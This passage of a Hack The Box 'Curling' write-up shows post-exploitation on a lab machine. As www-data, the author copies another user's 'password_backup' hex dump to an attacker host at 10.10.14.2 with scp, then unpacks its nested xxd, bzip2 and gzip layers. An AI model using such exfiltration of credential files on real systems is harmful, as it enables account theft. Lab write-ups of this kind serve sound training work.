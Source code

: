 As the `www-data` user, the `user.txt` flag cannot be read as it is owned by the user `floris`. In the `floris`  user's home directory, however, there is a world-readable file called `password_backup` that contains what appears to be the result of an `xxd` command.

```
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48  
```

Before working with this file further, it was transferred to the attacking system using `scp`.

```
www-data@curling:/home/floris$ scp ./password_backup root@10.10.14.2:/root/workspace/hackthebox/Curling/
```

From `xxd -h`, the `-r` flag can be used to reverse an operation. Running the `xxd -r password_backup > output` command creates the `output` file that contains the reuslt of the `xxd -r` command. The `file` tool was used to determine what kind of data is within the file.

```
root@kali:~/workspace/hackthebox/Curling# file output 
output: bzip2 compressed data, block size = 900k
```

The command `bunzip2 output` can be used to decompress the `output` file. This results in the `output.out` file, which is of a different file type.

```
root@kali:~/workspace/hackthebox/Curling# file output.out 
output.out: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix, original size modulo 2^32 141
```

The `output.out` file should be renamed to `output_1.gz` before being decompressed with `gunzip`. 

```
root@kali:~/workspace/hackthebox/Curling# mv output.out output_1.gz && gunzip output_1.gz
```

This results in the `output_1` file which is another `bzip2` compressed file. The `bunzip2` command is used once again.

```
root@kali:~/workspace/hackthebox/Curling# bunzip2 output_1
```
